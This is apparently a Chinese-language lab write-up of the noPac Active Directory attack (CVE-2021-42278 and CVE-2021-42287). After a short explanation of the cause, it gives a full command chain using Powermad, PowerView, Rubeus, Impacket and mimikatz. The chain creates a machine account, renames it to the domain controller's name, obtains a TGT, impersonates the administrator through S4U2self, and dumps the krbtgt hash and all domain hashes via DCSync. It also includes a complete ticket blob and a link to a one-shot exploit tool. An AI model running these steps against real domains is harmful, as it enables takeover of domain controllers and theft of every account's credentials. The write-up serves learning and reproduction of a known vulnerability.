# 漏洞成因

NoPac的的漏洞成因是两个漏洞的组合CVE-2021-42278和CVE-2021-42287

- CVE-2021-42278， 机器用户应当是computer$的形式，但是实际并没有验证机器账号是否有$。导致机器用户名可以被模拟冒用。
- CVE-2021-42287，Kerberos在处理UserName字段时，如果找不到 UserName 的话，KDC会继续查找 UserName$，如果还是查找不到的话，KDC会继续查找altSecurityIdentities属性的值的⽤户。正是因为这个处理逻辑，导致了漏洞的产⽣

上述漏洞配合使用，创建与DC机器账户名字相同的机器账户（不以$结尾），账户请求一个TGT后，更名账户，然后通过S4U2self申请TGS Ticket，接着DC在`TGS_REP`阶段，这个账户不存在的时候，DC会使用自己的密钥加密`TGS Ticket`，提供一个属于该账户的`PAC`，然后我们就得到了一个高权限ST

具体的操作为：

- 假如域内有一台域控名为 DC（域控对应的机器用户为 DC$），此时攻击者利用漏洞 CVE-2021-42287 创建一个机器用户 SAMTHEADMIN-48$，再把机器用户 SAMTHEADMIN-48$ 的 sAMAccountName 改成 DC。然后利用 DC 去申请一个TGT票据。再把 DC 的sAMAccountName 改为 SAMTHEADMIN-48$。这个时候 KDC 就会判断域内没有 DC 这个用户，自动去搜索 DC$（DC$是域内已经的域控DC 的 sAMAccountName），攻击者利用刚刚申请的 TGT 进行 S4U2self，模拟域内的域管去请求域控 DC 的 ST 票据，最终获得域控制器DC的权限。

其实就相当于得到了DC的TGT，可以去申请对应的ST票据接管域控

利用条件：

（1）一个普通域成员帐户。

（2）域用户有创建机器用户的权限（一般默认权限）。

（3）DC未打补丁KB5008380或KB5008602。

# 手工复现

网上由对应的脚本直接打NoPac，但是为了了解过程，先手工复现一遍

大致的流程为，创建机器账户，修改sAMAccountName和DC相同（不带$），用修改后的账户申请TGT，再把sAMAccountName改回去，S4U2self的时候就是模拟域管请求ST票据了

## 创建机器账户

```
# 使用Powershell创建机器用户
import-module .\Powermad.ps1
$password = ConvertTo-SecureString '1qaz@WSX' -AsPlainText -Force
New-MachineAccount -MachineAccount "nopac" -Password $($password) -Domain "hack.local" -DomainController "DC.hack.local" -Verbose


python addcomputer.py hack.local/delegateuser:DawnT0wn@dele -method LDAPS -computer-name nopac -computer-pass 1qaz@WSX -dc-ip 10.10.10.10
```





## 清除机器的SPN

```
# 使用Powershell清除机器用户的SPN
Import-Module .\Powerview.ps1
Set-DomainObject "CN=nopac,CN=Computers,DC=hack,DC=local" -Clear 'serviceprincipalname' -Verbose
```



## 修改机器的用户名

```
# 使用powershell将机器用户名修改为DC的用户名。注意不带$符号
Set-MachineAccountAttribute -MachineAccount "nopac" -Value "DC" -Attribute samaccountname -Verbose

# 查看机器用户名是否修改成功
Get-DomainObject "CN=nopac,CN=Computers,DC=hack,DC=local"
```



修改后的名字为DC

## 请求TGT

```
# 使用Rubeus用机器账号向DC请求TGT
Rubeus.exe asktgt /user:"DC" /password:"1qaz@WSX" /domain:"hack.local" /dc:"DC.hack.local" /nowrap
```



得到的TGT为

```
doIEojCCBJ6gAwIBBaEDAgEWooIDwzCCA79hggO7MIIDt6ADAgEFoQwbCkhBQ0suTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmhhY2subG9jYWyjggN/MIIDe6ADAgESoQMCAQKiggNtBIIDaYPuaEVqOJ0Bg2lpHuDxdqzk4A1cumT2UXf3xiXL0Wrhl/j7UsIN0b9ZZFUsix0Hn9ZHZU/+84tMFCe6XdVY9Ua4g4h9VapvnLhVUAOxRGKA2xeaDPSh6gugoaKJI/wF0Bi0hLm8oe2aKPSLeYLmLnNTqR79Oe7Y7a1BRXzZH0+LU/+ZUP3+X9kg2kgzVJaYEb8XiCh2XQ0zCqqrSZkw7pf9lhDdSgfjZzX90A2tBzrIsLJPa0BGJ6O9DnIkpZqfmY2FbAJIAROmaZ57x4uF288hiad9MEqR1/rHc0FSNzM2eJxNqY2GH1kAP7hd93UTC92P4a6WVOW7+6ErbbkaoOk8RnBfFa1oMHYjlwUDawquXWHjZg4Sg/ESOIpDOQ7mpqExSKbll+MX7YBZyr3hb8M7mzbEdcheRfp1lW5/38ckZeZOz1PCutNKfVug0AI7rbwYGWQGrt5MI+h5JdP/gBzm7cLznUC6CycPoh/kmrHqKh86d0RHFTjehyQZPhgym9CQkfBRntf6sTwxoZBqfbQD4RHsFrWe6YvhuG+usg45t6wSYoVvHQQlCRGWiGjvYJ90yXJCbGXiJA4ASXmsjvl4u5VWbvqwgPTVi4llg50skpMrEHtWU6ilWBdi3zLWduBt6U/b49eTfvpY6UzYSyVL2AL+V3Kz3UegK+KbAfxUx+5jTTDfZoyLUyMIA4vhzafZ5tbltdd6ggHlhbtCgu0ZK3MjTqkjQyNDmAAubITGgsv+h9InRnxr7bdWNBFOnvEsvHgJwROWVyoDjvBtzc4NbJ4Vp6jWfScWatczWHFH6rljfz3uUf4lUPw/DT9L5qsuACM4Sw3KlQKEk0Gwd043sY4CmcF7aDHS+Jex8EN4V70NBDnsXByMXAQbSnfAGAL+fPXqDOnx7pKRnxMtxp4se5Vl++DzH9pWjTmcptsovdhXnuiNthCH0lzTQT5diqKtA6kZJ/TkR2Rlf5H9UMyWbOcCwPbbfYmZP25EGBgqYjGJOFllZkjW1mcCxK89rJWm7q/RwMTXIBcBQqW79X+cpDRSr1zR+OWQsDu5oy4OCbs9/TZASZPK+ctMJkSOvjNh+VW4k2rRFeFixy6YwMB7WL/pi0GtEe1oy2oJvw6THYTySs9bdgoaEfxbPWVWrErP5IGCMp2vYKOByjCBx6ADAgEAooG/BIG8fYG5MIG2oIGzMIGwMIGtoBswGaADAgEXoRIEEFdG1lDgdZiohUUyHLcCk/ahDBsKSEFDSy5MT0NBTKIPMA2gAwIBAaEGMAQbAkRDowcDBQBA4QAApREYDzIwMjQxMDExMDg1NDUyWqYRGA8yMDI0MTAxMTE4NTQ1MlqnERgPMjAyNDEwMTgwODU0NTJaqAwbCkhBQ0suTE9DQUypHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmhhY2subG9jYWw=
```

## 恢复用户名

```
# 将机器用户名重置为原来的用户名
Set-MachineAccountAttribute -MachineAccount "nopac" -Value "nopac" -Attribute samaccountname -Verbose
```



## 申请ST票据

```
# 使用请求的TGT通过S4U2self获取ST 注意，impersonateuser必须要存在才有效，如果域内administrator被禁用，换成其他域管
Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"ldap/DC.hack.local" /dc:"DC.hack.local" /ptt /ticket:doIEojCCBJ6gAwIBBaEDAgEWooIDwzCCA79hggO7MIIDt6ADAgEFoQwbCkhBQ0suTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmhhY2subG9jYWyjggN/MIIDe6ADAgESoQMCAQKiggNtBIIDaYPuaEVqOJ0Bg2lpHuDxdqzk4A1cumT2UXf3xiXL0Wrhl/j7UsIN0b9ZZFUsix0Hn9ZHZU/+84tMFCe6XdVY9Ua4g4h9VapvnLhVUAOxRGKA2xeaDPSh6gugoaKJI/wF0Bi0hLm8oe2aKPSLeYLmLnNTqR79Oe7Y7a1BRXzZH0+LU/+ZUP3+X9kg2kgzVJaYEb8XiCh2XQ0zCqqrSZkw7pf9lhDdSgfjZzX90A2tBzrIsLJPa0BGJ6O9DnIkpZqfmY2FbAJIAROmaZ57x4uF288hiad9MEqR1/rHc0FSNzM2eJxNqY2GH1kAP7hd93UTC92P4a6WVOW7+6ErbbkaoOk8RnBfFa1oMHYjlwUDawquXWHjZg4Sg/ESOIpDOQ7mpqExSKbll+MX7YBZyr3hb8M7mzbEdcheRfp1lW5/38ckZeZOz1PCutNKfVug0AI7rbwYGWQGrt5MI+h5JdP/gBzm7cLznUC6CycPoh/kmrHqKh86d0RHFTjehyQZPhgym9CQkfBRntf6sTwxoZBqfbQD4RHsFrWe6YvhuG+usg45t6wSYoVvHQQlCRGWiGjvYJ90yXJCbGXiJA4ASXmsjvl4u5VWbvqwgPTVi4llg50skpMrEHtWU6ilWBdi3zLWduBt6U/b49eTfvpY6UzYSyVL2AL+V3Kz3UegK+KbAfxUx+5jTTDfZoyLUyMIA4vhzafZ5tbltdd6ggHlhbtCgu0ZK3MjTqkjQyNDmAAubITGgsv+h9InRnxr7bdWNBFOnvEsvHgJwROWVyoDjvBtzc4NbJ4Vp6jWfScWatczWHFH6rljfz3uUf4lUPw/DT9L5qsuACM4Sw3KlQKEk0Gwd043sY4CmcF7aDHS+Jex8EN4V70NBDnsXByMXAQbSnfAGAL+fPXqDOnx7pKRnxMtxp4se5Vl++DzH9pWjTmcptsovdhXnuiNthCH0lzTQT5diqKtA6kZJ/TkR2Rlf5H9UMyWbOcCwPbbfYmZP25EGBgqYjGJOFllZkjW1mcCxK89rJWm7q/RwMTXIBcBQqW79X+cpDRSr1zR+OWQsDu5oy4OCbs9/TZASZPK+ctMJkSOvjNh+VW4k2rRFeFixy6YwMB7WL/pi0GtEe1oy2oJvw6THYTySs9bdgoaEfxbPWVWrErP5IGCMp2vYKOByjCBx6ADAgEAooG/BIG8fYG5MIG2oIGzMIGwMIGtoBswGaADAgEXoRIEEFdG1lDgdZiohUUyHLcCk/ahDBsKSEFDSy5MT0NBTKIPMA2gAwIBAaEGMAQbAkRDowcDBQBA4QAApREYDzIwMjQxMDExMDg1NDUyWqYRGA8yMDI0MTAxMTE4NTQ1MlqnERgPMjAyNDEwMTgwODU0NTJaqAwbCkhBQ0suTE9DQUypHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmhhY2subG9jYWw=
```



使用mimikatz的dcsync功能导出hash

```
mimikatz.exe "lsadump::dcsync /domain:hack.local /user:krbtgt /csv" "exit"

mimikatz.exe "lsadump::dcsync /domain:hack.local /all /csv" "exit"
```



拿到了域控的hash和krbtgt的hash

# Impacket工具

这里就没去尝试了，就是将刚才的步骤用impacket实现了

```
# 0. 创建机器账号
python3 addcomputer.py -computer-name 'nopacTest$' -computer-pass '1qaz@WSX' -dc-ip 10.211.55.30 'hacker.lab/hacker:1qaz@WSX' 

# 1. 清除SPN
python3 addspn.py --clear -t 'nopacTest$' -u 'hacker\hacker' -p '1qaz@WSX' r-dc.hacker.lab

# 2. 重命名计算机（计算机->DC）
python3 renameMachine.py -current-name 'nopacTest$' -new-name 'r-dc' -dc-ip r-dc.hacker.lab hacker/hacker:1qaz@WSX

# 3. 获取TGT 使用修改后的计算机名和机器密码
python3 getTGT.py -dc-ip r-dc.hacker.lab hacker.lab/r-dc:1qaz@WSX

# 4. 重命名计算机
python3 renameMachine.py -current-name 'r-dc' -new-name 'nopacTest$' -dc-ip r-dc.hacker.lab hacker/hacker:1qaz@WSX

# 5. 使用TGT利用S4U2self 获取ST (cifs/ldap)/r-dc.hacker.lab
export KRB5CCNAME=r-dc.ccache 
python3 getST.py -impersonate 'administrator' -spn 'cifs/r-dc.hacker.lab' -k -no-pass -dc-ip r-dc.hacker.lab hacker/r-dc

# 6. DCSync 导出hash
export KRB5CCNAME=administrator.ccache 
python3 secretsdump.py -just-dc-user krbtgt -k -no-pass -dc-ip r-dc.hacker.lab @r-dc.hacker.lab
```

获取cifs票据，用wmiexec或者psexec横向也可以，这样就不用dcsync导出hash再pth了

# Nopac工具

https://github.com/Ridter/noPac





可以直接获取shell，查看机器用户发现创建了对应的用户




参考链接：

https://www.cnblogs.com/-meditation-/articles/16619406.html

https://xz.aliyun.com/t/10694?time__1311=CqjxR7D%3DiQDQitD%2F82c0D0hDI2iDcQl7jaoD#toc-14